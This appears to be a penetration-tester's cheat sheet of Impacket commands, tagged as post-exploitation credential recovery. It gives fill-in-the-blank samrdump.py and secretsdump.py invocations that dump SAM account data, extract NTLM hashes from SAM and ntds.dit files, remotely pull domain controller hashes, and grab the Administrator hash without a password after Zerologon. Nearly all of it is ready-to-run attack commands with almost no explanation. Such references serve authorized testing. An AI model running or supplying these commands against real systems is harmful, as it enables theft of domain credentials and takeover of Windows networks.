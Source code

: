 # Impacket

% impacket, windows, smb, 445

## samrdump - system account, shares, etc... (dump info from the Security Account Manager (SAM))
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
samrdump.py <domain>/<user>:<password>@<ip>
```

## secretsdump
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py '<domain>/<user>:<password>'@<ip>
```

## secretsdump local dump - extract hash from sam database
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -system <SYSTEM_FILE|SYSTEM> -sam <SAM_FILE|SAM> LOCAL
```

## secretsdump local dump - extract hash from ntds.dit
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -ntds <ntds_file.dit> -system <SYSTEM_FILE> -hashes <lmhash:nthash> LOCAL -outputfile <ntlm-extract-file>
```

## secretsdump - anonymous get administrator 
zerologon
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py <domain>/<dc_bios_name>\$/@<ip> -no-pass -just-dc-user "Administrator"
```

## secretsdump - remote extract
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc-ntlm -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<ip>
```

## secretsdump - remote extract + users infos
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc -pwd-last-set -user-status -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<ip>
```


